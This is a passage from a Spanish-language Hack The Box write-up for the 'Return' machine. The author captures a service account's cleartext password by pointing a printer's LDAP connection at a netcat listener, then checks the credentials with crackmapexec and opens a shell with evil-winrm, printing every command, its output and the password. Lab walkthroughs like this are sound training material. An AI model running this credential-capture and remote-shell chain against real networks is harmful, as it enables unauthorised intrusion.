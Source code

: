 Como puedo controlar la dirección a donde se conecta, introduzco mi IP y me pongo en escucha para analizar la petición

<img src="/writeups/assets/img/Return-htb/4.png" alt="">

Recibo una contraseña en texto claro

```null
nc -nlvp 389
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.10.11.108.
Ncat: Connection from 10.10.11.108:59921.
0*`%return\svc-printer
                      1edFg43012!!
```

Las almaceno en un archivo y valido si son válidas a nivel de sistema con crackmapexec

```null
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

Como son válidas, pruebo a conectarme por winrm

```null
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Conecta sin problema, así que obtengo una shell con evil-winrm

```null
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

